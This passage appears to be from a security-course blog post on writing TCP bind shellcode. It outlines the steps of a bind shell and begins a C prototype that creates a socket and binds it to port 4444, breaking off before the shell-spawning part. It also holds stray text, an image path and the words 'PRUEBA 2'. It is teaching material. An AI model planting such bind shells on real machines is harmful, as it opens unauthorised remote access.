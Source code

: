 ```yaml
---
layout: single
title: TCP bind shellcode
date: 2018-11-18
classes: wide
header:
  teaser: /assets/images/slae32.png
categories:
  - slae
  - infosec
tags:
  - slae
  - assembly
  - tcp bind shellcode
---
```

PRUEBA 2 A bind shellcode listens on a socket, waiting for a connection to be made to the server then executes arbitrary code, typically spawning shell for the connecting user. This post demonstrates a simple TCP bind shellcode that executes a shell.

The shellcode does the following:
1. Creates a socket
2. Binds the socket to an IP address and port
3. Listens for incoming connections
4. Redirects STDIN, STDOUT and STDERR to the socket once a connection is made
5. Executes a shell

### C prototype
---------------
To better understand the process of creating a bind shellcode, I created a prototype in C that uses the same functions that'll be used in the assembly version. The full code is shown here. We'll walk through each section of the code after.

```c
#include <netinet/in.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <unistd.h>

int main()
{
    // Create addr struct
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444); // Port
    addr.sin_addr.s_addr = htonl(INADDR_ANY); // Listen on any interface

    // Create socket
    int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (sock == -1) {
        perror("Socket creation failed.\n");
        exit(EXIT_FAILURE);
    }

    // Bind socket
    if (bind(sock, (struct sockaddr *) &addr, sizeof(addr)) == -1) {
        perror("Socket bind failed.\n");
        close(sock);
        exit(EXIT_FAILURE);
    }

    // Listen for connection
```